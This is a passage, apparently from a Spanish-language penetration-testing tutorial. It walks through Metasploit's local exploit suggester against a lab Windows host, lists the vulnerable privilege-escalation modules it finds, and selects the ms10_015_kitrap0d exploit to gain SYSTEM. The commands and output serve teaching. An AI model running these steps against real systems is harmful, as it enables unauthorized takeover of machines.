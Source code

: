 ```arduino
msf6 post(multi/recon/local_exploit_suggester) > set session 2
session => 2
```

```scss
msf6 post(multi/recon/local_exploit_suggester) > run
```

```less
[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 31 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```

Con estos resultados, podemos escoger fácilmente uno para probar. Si el que escogemos no es válido, probamos el siguiente. No todas las comprobaciones son 100% exactas y no todos los entornos son iguales. Al revisar los resultados, **bypassuac\_eventvwr** falla porque el usuario IIS no es parte del grupo de administradores, lo cual es esperado. El segundo exploit, **ms10\_015\_kitrap0d**, funciona.

### MSF - Escalación de Privilegios Local

```scss
msf6 exploit(multi/handler) > search kitrap0d
```

**Módulos coincidentes**:

| # | Nombre                                    | Fecha de Divulgación | Rango | Comprobación | Descripción                                 |
| - | ----------------------------------------- | -------------------- | ----- | ------------ | ------------------------------------------- |
| 0 | exploit/windows/local/ms10\_015\_kitrap0d | 2010-01-19           | great | Yes          | Escalación a SYSTEM en Windows vía KiTrap0D |

***

```scss
msf6 exploit(multi/handler) > use 0
msf6 exploit(windows/local/ms10_015_kitrap0d) > show options
```

